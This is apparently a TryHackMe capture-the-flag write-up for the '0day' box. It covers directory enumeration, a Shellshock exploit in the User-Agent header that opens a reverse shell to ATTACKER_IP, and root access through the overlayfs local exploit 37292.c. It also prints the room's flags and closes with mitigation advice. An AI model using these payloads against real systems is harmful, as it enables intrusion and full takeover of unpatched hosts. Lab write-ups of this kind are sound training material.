






**Platform:** TryHackMe
**Category:** Web / Linux Privilege Escalation
**Difficulty:** Easy
**Date:** 2026-11-21

## 🎯 Objective

Get a foothold on the 0day box through its web service, read the user flag, then escalate to root and read the root flag.

## 🔍 Recon & Analysis

I started with directory enumeration against the web server using gobuster.

```bash
gobuster dir -u http://TARGET -w /usr/share/dirb/wordlists/common.txt
```

Two results stood out next to each other: `/cgi-bin` redirected (301), and `/cgi-bin/` itself returned **403 Forbidden**. A `server-status` endpoint also returned 403.



A 403 on a directory does not mean there is nothing there - it usually means the directory listing is locked, not the files inside it. `/cgi-bin/` on an old Apache server is a classic place for Shellshock, so I pointed nikto at that directory.

```bash
nikto -h http://TARGET/cgi-bin/
```

Nikto confirmed it: `/cgi-bin/test.cgi` was flagged as vulnerable to **Shellshock (CVE-2014-6271)**, on an outdated Apache 2.4.7.



## 💥 Exploitation

**1. Understanding the Shellshock payload**

Shellshock abuses the way old bash parses an environment variable that starts with a function definition. The `() { :; };` part is a function definition bash parses, and the bug makes it keep executing whatever comes after it:

```bash
() { :; }; echo; /bin/bash -c 'id'
```

To confirm it, I sent the payload through the `User-Agent` header against `/cgi-bin/test.cgi` and had it print `/etc/passwd` and run `uname -a`. Both came back, so I had command execution, and the kernel string showed Ubuntu 14.04 on 3.13.0.



CGI scripts receive HTTP headers as environment variables (the `User-Agent` header becomes `HTTP_USER_AGENT`), so a crafted `User-Agent` reaches bash through the CGI script and runs.

**2. Getting a reverse shell as www-data**

I set up a listener:

```bash
nc -lvnp 8888
```

Then fired the Shellshock payload in the `User-Agent` header, pointing the reverse shell back at my machine:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1'" http://TARGET/cgi-bin/test.cgi
```

The listener caught a shell as `www-data`.

**3. Reading the user flag**

```bash
cd /home
ls            # lcs  ryan
cd ryan
cat user.txt  # THM{Sh3llSh0ck_r0ckz}
```



## 🧠 Root Cause

Two separate failures chained together:

- **Shellshock (CVE-2014-6271):** an unpatched bash on a CGI-enabled Apache let a crafted HTTP header run arbitrary commands as `www-data`.
- **Outdated kernel:** the host ran an Ubuntu 14.04 / kernel 3.13.0 install vulnerable to a well-known local privilege escalation.

## 🛡️ Mitigation

- Patch bash - the Shellshock fix has shipped since 2014.
- Disable `mod_cgi` and remove unused CGI scripts like `test.cgi` if they are not needed.
- Keep the kernel and OS patched; 14.04 is long past end of life.
- Run CGI with least privilege and restrict `/cgi-bin/` access.

## Privilege Escalation: www-data → root

I checked the kernel version, which pointed at an old Ubuntu release, and searched for a matching local exploit:

```bash
searchsploit ubuntu 3.13.0
```

This returned the overlayfs Local Privilege Escalation (`37292.c`) for kernel 3.13.0.



The exploit is written in C, so it needs compiling on the target. The first compile failed:

```bash
gcc 37292.c -o 37292
# gcc: error trying to exec 'cc1': No such file or directory
```

This is **not** a broken exploit. In a reverse shell, `$PATH` was minimal and did not include the directory holding gcc's `cc1` helper, so the compiler could not find it. The fix was to export a proper PATH and recompile:

```bash
export PATH=/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin
gcc 37292.c -o 37292 && ./37292
```

The exploit spawned a root shell:

```bash
whoami        # root
cd /root
cat root.txt  # THM{g00d_j0b_0day_is_Pleased}
```



## 📝 Key Takeaways

- A 403 on a directory is a lock on the listing, not proof the path is empty - always look closer.
- Old `/cgi-bin/` on outdated Apache is a strong Shellshock signal; let nikto confirm it.
- Public exploits often need troubleshooting, not replacing. The `cc1: No such file or directory` error was a broken `$PATH` in the reverse shell, fixed by exporting a full PATH before compiling.
- A full-disclosure flaw (Shellshock) plus an unpatched kernel is a straight line from a web header to root.

## 🔧 Tools Used

- gobuster - directory enumeration
- nikto - vulnerability scan / Shellshock detection
- curl - delivering the Shellshock payload
- netcat - reverse shell listener
- searchsploit - finding the overlayfs LPE
- gcc - compiling the privilege escalation exploit
